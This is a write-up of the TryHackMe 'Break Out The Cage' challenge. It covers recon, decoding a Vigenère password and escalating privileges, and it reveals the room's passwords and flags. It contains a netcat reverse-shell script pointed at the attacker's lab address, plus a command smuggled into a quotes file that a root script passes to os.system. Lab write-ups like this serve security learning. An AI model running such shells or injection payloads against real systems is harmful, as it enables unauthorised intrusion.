 ```yaml
---
title: "Break Out The Cage - TryHackMe"
author: Ludovic COULON
date: 2020-06-18
hero: ./images/hero.jpeg
excerpt: "Writeup for the Break Out The Cage room on TryHackMe"
---
```


[TryHackMe | Break Out The Cage](https://tryhackme.com/room/breakoutthecage1)
Let's find out what his agent is up to....

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.145.194
```

```bash
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.2.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDn+KLEDP81/6ceCvdFeDrLFYWSWc6UnOmmpiNeXuyr+GRvE5Eff4DOeTbiEIcHQkkPcz2QXiOLd9SMjCEgAqmZiZE/mv1HJpQfmRLOufOlf9oZ1TIZf7ehKcVqX0W3nuQeC+M2wLBse2lGhovnTSaZKLKRjQCP2yD1EzND/xFA88oFpahvr6vJfyGOTADjc83AJq9n3Gnil4Nd88xNsIKTl01Mm9ikE/3n/XFbwzYa2bYJRVr+lWWRd+EU3sYTY80PQgBiw6ZPT0QCe0lQfmcgCqu4hC+t/kyfmMRlbtjN/yZJ0gCWeVVAV+A4NNgsOqFbXUT+c6ATzYNhBXRojJED
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA3G1rdbZBOf44Cvz2YGtC5WhIHfHQhtShY8miCVHayvHM/9reA8VvLx9jBOa+iClhm/HairgvNV6pYV6Jg6MII=
|   256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFiTPEbVpYmF2d/NDdhVYlXWA5PmTHhtrtlAaTiEuZOj

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
➜  TryHackMe dirb http://10.10.145.194/ -R

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Jun 15 10:10:41 2020
URL_BASE: http://10.10.145.194/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Interactive Recursion

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.145.194/ ----
==> DIRECTORY: http://10.10.145.194/contracts/
==> DIRECTORY: http://10.10.145.194/html/
==> DIRECTORY: http://10.10.145.194/images/
==> DIRECTORY: http://10.10.145.194/auditions/
+ http://10.10.145.194/index.html (CODE:200|SIZE:2453)
==> DIRECTORY: http://10.10.145.194/scripts/
+ http://10.10.145.194/server-status (CODE:403|SIZE:278)
```

<div className="Image__Medium">
  <img src="https://imgur.com/OszNOAo.png" alt="blog_image" />
</div>

As you can see by the title of the file, this mp3 is corrupted let's see if there is something hidden using stenography.

<div className="Image__Medium">
  <img src="https://imgur.com/1VoGSx0.png" alt="blog_image" />
</div>

Yep ! There is something hidden in this file the "password" is : namelesstwo

<div className="Image__Medium">
  <img src="https://imgur.com/gN4KqtG.png" alt="blog_image" />
</div>
<div className="Image__Medium">
  <img src="https://imgur.com/eVBHL57.png" alt="blog_image" />
</div>

[Vigenère Cipher - Decoder, Encoder, Solver, Translator](https://www.dcode.fr/vigenere-cipher)

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

### #1 What is Weston's password?

```bash
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

### #2 What's the user flag?

I tried to use the find command to locate all the txt files but nothing came out..

```
weston@national-treasure:~$ find / -type f -name "user.*" 2>/dev/null
```

Let's try something else .. 😢

<div className="Image__Medium">
  <img src="https://imgur.com/B1Bb9kI.png" alt="blog_image" />
</div>

As you can see there this script that we can execute with root permission let's get a reverse shell 🤤

Wait ...

<div className="Image__Medium">
  <img src="https://imgur.com/fe66YHv.png" alt="blog_image" />
</div>

When I was editing the script I noticed something interesting there is a script that write random quotes, let's find the script 🤨

You can also find the random quotes in the motd

<div className="Image__Medium">
  <img src="https://imgur.com/iQWwMqZ.png" alt="blog_image" />
</div>

```
weston@national-treasure:~$ find / -type f -name "rando*" 2>/dev/null
```

Nothing there.. 😟

```
weston@national-treasure:~$ find / -type f -name "*quotes*" 2>/dev/null
```

AH ! I found it! 😅

<div className="Image__Medium">
  <img src="https://imgur.com/tUotgtl.png" alt="blog_image" />
</div>

```python
weston@national-treasure:~$ cat /opt/.dads_scripts/spread_the_quotes.py
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

Let's get a reverse shell

```bash
rm -f /tmp/rev
cat << EOF > /tmp/rev
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.2.228 4444 >/tmp/f
EOF
chmod +x /tmp/rev
printf 'bop; /tmp/rev\n' > /opt/.dads_scripts/.files/.quotes
```

Wait maybe 1 or two minutes to get a shell

<div className="Image__Medium">
  <img src="https://imgur.com/WBwzInV.png" alt="blog_image" />
</div>

```bash
ls
email_backup
Super_Duper_Checklist
cd Super*
/bin/bash: line 30: cd: Super_Duper_Checklist: Not a directory
cat Super*
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
```

### #3 What's the root flag?

Once you are in the cage account go to this repertory

```bash
/home/cage/email_backup
```

And cat \*

<div className="Image__Medium">
  <img src="https://imgur.com/oi1cWOc.png" alt="blog_image" />
</div>

After a while I figured out that the "password" highlighted is encoded using Vigenère encryption

But as you can see you need to provide some key to decode the password I tried "Face" because on the last paragraph the email repeat many times the word so i guess i had some chance 🥴

<div className="Image__Medium">
  <img src="https://imgur.com/junuXVj.png" alt="blog_image" />
</div>

[CyberChef](<https://gchq.github.io/CyberChef/#recipe=Vigen%C3%A8re_Decode('face')&input=aGFpaW5zcHN5YW5pbGVwaA>)

```bash
cageisnotalegend
```

You can also stabilized the shell using the cage's ssh key

<div className="Image__Medium">
  <img src="https://imgur.com/uWyHix4.png" alt="blog_image" />
</div>

Once you stabilized the shell you can just type "su" and type the password that we discover earlier

<div className="Image__Medium">
  <img src="https://imgur.com/ibMOroe.png" alt="blog_image" />
</div>

```bash
THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/hejzVWP.png" alt="TryhackMeProfile" />
  </a>
</center>
